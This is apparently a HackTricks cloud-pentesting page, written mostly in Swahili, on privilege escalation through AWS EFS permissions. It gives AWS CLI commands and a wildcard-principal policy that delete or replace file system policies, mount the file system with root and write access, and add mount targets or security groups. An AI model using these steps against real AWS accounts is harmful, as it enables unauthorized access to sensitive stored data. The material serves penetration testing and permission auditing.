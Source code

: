 # AWS - EFS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## EFS

Taarifa zaidi kuhusu **EFS** iko:

{{#ref}}
../../aws-services/aws-efs-enum.md
{{#endref}}

Kumbuka kwamba ili kuunganisha EFS unahitaji kuwa katika subnetwork ambapo EFS imefunuliwa na kuwa na ufikiaji kwake (security groups). Ikiwa hili linatokea, kwa default utakuwa na uwezo wa kuunganisha; hata hivyo, ikiwa imehifadhiwa na IAM policies unahitaji ruhusa za ziada zilizotajwa hapa ili kuifikia.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Kwa moja ya ruhusa hizo, mshambuliaji anaweza **kubadilisha sera ya file system** ili **kukupa ufikiaji** kwake, au kuifuta tu ili **ufikiaji wa chaguo-msingi** utolewe.

Ili kufuta sera:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Kuibadilisha:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Kwa ruhusa hii mshambuliaji ataweza **mount the EFS**. Kama write permission haijatolewa kwa chaguo-msingi kwa kila mtu anayeweza mount the EFS, atapata tu **read access**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Ruhusa za ziada `elasticfilesystem:ClientRootAccess` na `elasticfilesystem:ClientWrite` zinaweza kutumika **kuandika** ndani ya filesystem baada ya kuunganishwa na **kupata** mfumo huo wa faili **kama root**.

**Potential Impact:** Indirect privesc kwa kupata taarifa nyeti ndani ya file system.

### `elasticfilesystem:CreateMountTarget`

Ikiwa mshambuliaji yuko ndani ya **subnetwork** ambapo **hakuna mount target** ya EFS, anaweza tu **kuunda moja kwenye subnet yake** kwa ruhusa hii:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Athari Inayowezekana:** Indirect privesc kwa kupata taarifa nyeti katika mfumo wa faili.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Katika tukio ambako mshambuliaji anagundua kwamba EFS ina mount target kwenye subnetwork yake lakini **hakuna security group inayoruhusu traffic**, anaweza tu **kubadilisha hilo kwa kurekebisha security groups zilizochaguliwa**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Athari Inayowezekana:** Isiyo ya moja kwa moja privesc kwa kupata taarifa nyeti katika mfumo wa faili.

{{#include ../../../../banners/hacktricks-training.md}}
